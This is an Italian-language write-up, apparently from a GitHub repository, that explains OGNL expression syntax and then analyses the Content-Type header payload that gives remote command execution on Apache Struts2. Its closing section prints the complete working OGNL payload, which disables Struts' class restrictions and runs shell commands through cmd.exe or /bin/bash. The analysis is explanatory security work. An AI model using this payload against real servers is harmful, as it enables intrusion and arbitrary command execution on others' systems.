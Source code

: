 dopo aver estratto la proprietà `headline` e poi `parent` da essa, viene chiamato il metodo `ensureLoaded()` **sull'oggetto parent ritornato prima** e poi ritorna il nome sempre dell'oggetto parent.

###### Liste
Per creare una lista di oggetti, rinchiuderli tra parentesi graffe. L'espressione 

`name in { null,"Untitled" }`

testa se la proprietà `name` dell'oggetto iniziale sia `null` o `Untitled`. In particolare tale espressione crea una istanza dell'interfaccia `List`.

###### Arrays
Per creare un array nativo (array di `int` o `Integer`) ci sono due metodi:

- Tramite una Lista esistente

    `new int[] { 1, 2, 3 }`

- Fornendo solo la lunghezza

    `new int[5]` (crea un array di tutti 0)

###### Mappe
`#{ "foo" : "foo value", "bar" : "bar value" }`

crea una Mappa con mappings per `"foo"` e `"bar"`.

Nel caso si voglia **specificare una specifica classe**, essa si può specificare prima delle parentesi graffe:

`#@java.util.LinkedHashMap@{ "foo" : "foo value", "bar" : "bar value" }`

###### Variabili
Le variabili sono sempre precedute dal simbolo `#`
Sono dichiarate nel seguente modo:

`#myvar=10`

per riferirsi alla stessa variabile da quel momento basta usare:

`#myvar`

Inoltre la variabile `#context` contiene la mappa di variabili.

#### Analisi del Payload

Una volta compresa la sintassi OGNL ho effettuato una analisi del payload contenuto all'interno del `Content-Type` che causa l'ottenimento di RCE.

Il payload è il seguente:
```
%{(#_='multipart/form-data').
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.getExcludedPackageNames().clear()).
(#ognlUtil.getExcludedClasses().clear()).
(#context.setMemberAccess(#dm)))).
(#cmd='%s'). % cmd
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds))."
(#p.redirectErrorStream(true)).(#process=#p.start()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
(#ros.flush())}
```
